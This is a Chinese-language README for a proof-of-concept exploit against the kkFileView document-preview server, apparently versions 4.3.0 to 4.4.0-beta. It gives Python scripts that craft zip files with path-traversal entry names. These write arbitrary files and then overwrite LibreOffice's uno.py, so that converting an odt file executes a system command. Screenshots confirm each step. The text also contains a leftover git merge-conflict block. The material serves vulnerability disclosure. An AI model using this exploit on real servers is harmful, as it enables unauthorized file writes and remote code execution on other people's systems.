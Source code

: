 # kkFileView-v4.3.0-RCE-POC

## v4.3.0~v4.4.0-beta

https://github.com/kekingcn/kkFileView/releases/tag/v4.3.0

此版本为官方源代码最新版

### 环境部署

本地源码启动或者docker部署

![img](images/(null)-20240415195822360.(null))

### 任意文件上传

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ueeeeee'
        binary2 = b'hacked_by_1ue'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../tmp/flag", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意`hack.zip`，注意里面必须有一个正常文件，例如`test`，便于创建`hack.zip_`缓存文件

![img](images/(null)-20240415195822385-3182302.(null))

上传文件并预览

![img](images/(null)-20240415195822385.(null))

![img](images/(null)-20240415195822430.(null))

发现成功穿越

### RCE

可以任意文件上传，并且可以追加文件内容

经过我研究发现，目标在使用odt转pdf时会调用系统的Libreoffic，而此进程会调用库中的uno.py文件，因此可以覆盖该py文件的内容

```Python
import zipfile

if __name__ == "__main__":
    try:
        binary1 = b'1ue'
        binary2 = b'import os\r\nos.system(\'touch /tmp/hack_by_1ue\')'
        zipFile = zipfile.ZipFile("hack.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("hack.zip")
        zipFile.writestr("test", binary1)
        zipFile.writestr("../../../../../../../../../../../../../../../../../../../opt/libreoffice7.5/program/uno.py", binary2)
        zipFile.close()
    except IOError as e:
        raise e
```

制作恶意的zip包

暂时无法在飞书文档外展示此内容

上传并预览

![img](images/(null)-20240415195822638.(null))

再随便上传一个odt文件，另其发起libreoffice任务

暂时无法在飞书文档外展示此内容

上传并预览

![img](images/(null)-20240415195822411.(null))

可以看到命令成功被执行

<<<<<<< HEAD
![img](images/截屏2024-04-15 20.08.03.png)
=======
![img](images/(null)-20240415195901951.(null))
>>>>>>> b2d027d19b116abccd8eb8a9d64f526cb064ab58

uno.py中也确实被写入了内容

![img](images/(null)-20240415195822672.(null))
